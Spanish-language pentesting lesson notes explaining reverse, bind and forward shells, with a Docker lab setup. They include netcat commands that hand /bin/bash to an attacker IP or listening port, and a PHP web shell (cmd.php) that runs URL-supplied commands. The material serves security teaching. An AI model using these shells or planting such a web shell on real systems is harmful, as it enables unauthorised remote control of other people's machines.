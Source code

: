 En esta clase, veremos las diferencias entre Reverse Shell, Bind Shell y Forward Shell:

- **Reverse Shell**: Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, permitiéndole tomar el control de la máquina remota.

- **Bind Shell**: Esta técnica es el opuesto de la Reverse Shell, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante en ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma.

- **Forward Shell**: Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

Es importante entender las diferencias entre estas técnicas para poder determinar cuál es la mejor opción en función del escenario de ataque y las limitaciones de la red.

## Crear Entorno en Docker
### Crear un Docker file
```dockerfile
FROM ubuntu:latest

ENV DEBIAN_FRONTEND noninteractive

RUN apt update && apt install -y apache2 \
  php

EXPOSE 80

ENTRYPOINT service apache2 start && /bin/bash
```
#### Ejecutar 
```bash
## Contruir Imagen
docker build -t my_image .

## Construir contenedor
docker run -dit -p 80:80 --cap-add=NET_admin --name myContainer my_image

## Ejecutar contenedor
docker exec -it myContainer bash 
```
## Reverse Shell 
```bash
## Maquina Atacante
nc -nlvp 443

## Maquina Victima
ncat -e /bin/bash <IP-Atacante> <PORT>
# Ejemplo 👇
ncat -e /bin/bash 172.17.0.1 443

## Poner un prompt en la consola interactiva
script /dev/null -c bash
```
## Bind Shell
```bash
## Maquina Victima
ncat -nlvp 443 -e /bin/bash

## Maquina Atacante
nc <IP-Victima> <PORT>

## Poner un prompt en la consola interactiva
script /dev/null -c bash
```

## **📊 Diferencias Clave**

| Característica                              | Reverse Shell | Bind Shell  |
| ------------------------------------------- | ------------- | ----------- |
| **Quién inicia la conexión**                | La víctima    | El atacante |
| **Necesita que el atacante abra un puerto** | ✅ Sí          | ❌ No        |
| **Fácil de usar detrás de un firewall/NAT** | ✅ Sí          | ❌ No        |
| **Riesgo de detección en la víctima**       | 🔥 Alto       | ⚠️ Medio    |
## Forward Shell

- Podemos crear un archivo `cmd.php` para tener ejecución remota de comandos.
```php
<?php
	echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```
- Este archivo lo podemos poner en la ruta del servidor como: `/var/www/html`
- Logramos la ejecución de comandos cuando en la URL ponemos: 
	`http://localhost/cmd.php?cmd=<COMANDO>`
- Para poder conseguir una **TTY** (Terminal Virtual) necesitamos un script en python:
	- [Herramienta para obtener una Shell interactiva vía HTTP](https://github.com/s4vitar/ttyoverhttp)
- Esta WEB nos enseña distintos modos de hacer una Reverse Shell:
	- [PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

